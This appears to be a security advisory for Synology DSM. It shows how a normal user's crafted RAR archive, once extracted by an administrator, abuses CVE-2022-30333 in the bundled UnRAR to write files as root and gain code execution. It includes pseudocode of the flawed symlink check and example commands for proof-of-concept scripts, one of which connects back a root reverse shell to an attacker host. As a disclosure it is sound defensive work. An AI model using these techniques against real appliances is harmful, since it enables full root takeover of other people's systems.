


A normal (non-administrator) DSM account can plant a crafted RAR archive that, when an administrator extracts it in File Station, writes an attacker-controlled file to any path on the appliance as root, and from there runs code as root.

DSM bundles UnRAR 5.70 (2019), which predates the CVE-2022-30333 fix. `SYNO.FileStation.Extract` performs the unpack with the caller's own privileges: as root when the caller is an administrator, as the caller's own uid otherwise. A RAR entry that is a Windows symlink escapes the extraction folder, and a second entry writes through it, so when an administrator does the extraction the escaping write lands anywhere on the system as root. The attacker supplies the archive; a single, routine administrator action (extracting it) is the trigger.

## Impact

Two results, each requiring one administrator action (extracting the attacker's archive in File Station), i.e. 1-click, normal-user-authenticated, AC:H:

- **1-click normal-user-auth arbitrary file write as root**: A normal user uploads a crafted RAR to a shared folder; when an administrator extracts it, an attacker-controlled file is written to any path on the appliance. The written file and its parent directory are then re-owned as the extracting administrator's user:group.

- **1-click normal-user-auth remote code execution as root**: The same primitive plants `/etc/ld.so.preload` and a small `.so`; the next root `execve` (e.g. any hit on the stock root CGI `/webman/login.cgi`, which nginx routes to synoscgi running as root) loads the planted library into a root process, yielding a root shell with no reboot.

Both findings were reproduced on a test RS1221+ unit running DSM 7.4.1-90080.

## Affected devices

Confirmed on DSM 7.4.1-90080 and DSM 7.3.2-86009, the two images examined. In both, `/usr/lib/libunrar.so` is byte-identical (md5 `8864229c538195b7e07594dbadd591d7`) and is UnRAR 5.70, read from the version immediates in `/usr/bin/unrar` (minor `0x46` = 70, year `0x7e3` = 2019). CVE-2022-30333 was fixed upstream in UnRAR 6.12 (open-source 6.1.7, May 2022), so this build is affected.

The vulnerable component is the DSM OS library `libunrar.so`, not the File Station package (`FileStation-x86_64-1.4.4-2221` is only the reachable caller). Synology has published no advisory for CVE-2022-30333, and both current release lines (7.3.x and 7.4.x) ship the same unpatched 5.70, so the current DSM 7 line is affected. Earlier releases were not examined; any DSM version shipping UnRAR before 6.12 is affected on the same basis.

## Preconditions

A normal DSM account (`normal.local`, `normal.domain` or `normal.ldap`) with the File Station privilege and write access to a folder that an administrator can browse (for example a shared or incoming folder that administrators extract archives from). The attacker uploads their archive with `SYNO.FileStation.Upload` (`authLevel 1`). The attacker needs no administrator credentials; only for the administrator to extract the file.

## How it works

`SYNO.FileStation.Extract` is `authLevel 1`, `allowUser [admin.*, normal.local, normal.domain, normal.ldap]`, so any File Station user may call it, but the extraction runs with the caller's effective uid. On every File Station request, `FileStation::FileWebAPI::Run` calls `WfmLibUGIDSet(loginUser)` before dispatching the handler. `WfmLibUGIDSet` branches on `SLIBGroupIsAdminGroupMem(user)`: an administrator is mapped to root (`ResetCredentialsByName("root")`, effective uid 0), a normal user to their own uid (`ResetCredentialsByName(user)`). `HandleExtractAction` then forks a worker (`Extract.so.c:19782`) that inherits that euid and performs the unpack in-process via `libunrar.so` with no further privilege change. So an administrator's extraction writes entries as root, while a normal user's extraction writes as that user. The per-entry destinations are never re-checked against the chosen folder.

The bundled UnRAR carries CVE-2022-30333. In `ExtractUnixLink50` (`libunrar.so` `0x279b0`), the RAR5 symlink target is copied out and then converted from backslashes to slashes with `DosSlashToUnix`, but the traversal check runs on the unconverted target:

```c
WideToChar(hd->RedirName, target, 0x800);            /* target = "..\..\..\...\etc" */
if (RedirType in {2,3} && target not "\??\" or "/??/")
    DosSlashToUnix(target, target, 0x800);           /* '\' -> '/', in place */
...
IsRelativeSymlinkSafe(cmd, hd->FileName, LinkName, hd->RedirName);  /* checks the UNCONVERTED target */
UnixSymlink(target, LinkName);                        /* creates the link to the converted path */
```

`IsRelativeSymlinkSafe` only counts a `..` component when the next character is `/`, so a backslash target like `..\..\..\etc` counts zero `..` and passes. The symlink is then created pointing outside the destination, and a second archive entry named `<link>/<file>` writes through it. This is the pre-6.12 upstream code; the 6.12 fix, which validates the slash-converted target, is absent.

## Proof of concept

Two scripts: Both run on the attacker's side with a normal user's credentials, they build the RAR in memory, log in, and upload it to `--dest` (a folder an administrator can browse). The trigger is an administrator extracting that archive in File Station. In the examples below `/share` is a File Station folder the normal account can write.

- **1-click normal-user-auth arbitrary file write**: [`poc_arb_file_write.py`](poc_arb_file_write.py). Plants the archive; when an administrator extracts it, `--target` is written as root. WARNING: the extraction re-owns the target's **parent** directory (e.g. `/etc`) to the extracting administrator, which can break system commands; restore it with `chown root:root /etc; chmod 0755 /etc`. Example:

```
python3 poc_arb_file_write.py --url https://nas:5001 --user alice --password 'Passw0rd!' --dest /share --file ./hello.txt --target /etc/hello.txt
```

- **1-click normal-user-auth RCE**: [`poc_rce.py`](./poc_rce.py). Plants a RAR that drops `/etc/ld.so.preload` and a tiny `.so` (built locally with `gcc`), then listens and nudges `/webman/login.cgi` so that once an administrator extracts the archive, the next root `execve` loads the library and connects back a root shell. On connect it removes `/etc/ld.so.preload` and restores `/etc` ownership. Example:

```
python3 poc_rce.py --url https://nas:5001 --user alice --password 'Passw0rd!' --dest /share --lhost 192.168.1.100 --lport 4444
```





